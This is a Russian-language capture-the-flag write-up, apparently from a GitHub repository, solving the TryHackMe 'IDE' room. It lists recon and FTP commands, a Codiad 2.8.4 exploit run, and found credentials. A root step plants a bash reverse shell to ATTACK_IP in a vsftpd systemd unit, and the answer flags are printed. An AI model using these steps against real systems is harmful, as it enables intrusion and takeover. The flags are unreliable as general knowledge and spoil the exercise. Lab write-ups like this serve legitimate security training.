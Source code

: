 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [IDE](https://tryhackme.com/r/room/ide) 

Всего 1 заданиe:
## Задание 1
Получите ракушку на ящик и повысьте свои привилегии!

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sCV -A -p- <IP>
ftp <IP>
ls -la
cd ...
ls -la
more -
# drac, john
# password
http://<IP>:62337
# john:password 
searchsploit "codiad 2.8.4"
python3 exploit.py http://<IP>:62337/ john password <my-own-ip> 1234 linux
nc -lvnp 1235
python3 -c 'import pty;pty.spawn("/bin/bash")'
id
ls -la
cat .bash_history
su drac
# Th3dRaCULa1sR3aL
cat user.txt
```
```commandline
02930d21a8eb009f6d26361b2d24a466
```
корень.txt
```commandline
sudo -l	
systemctl status vsfpd
ls -al /lib/systemd/system/vsftpd.service	
vim /lib/systemd/system/vsftpd.service
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACK_IP/9003 0>&1
nc -lvnp 9003
sudo /usr/sbin/service vsftpd restart
cat /root/root.txt
```
```commandline
ce258cb16f47f1c66f0b0b77f4e0fb8d
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)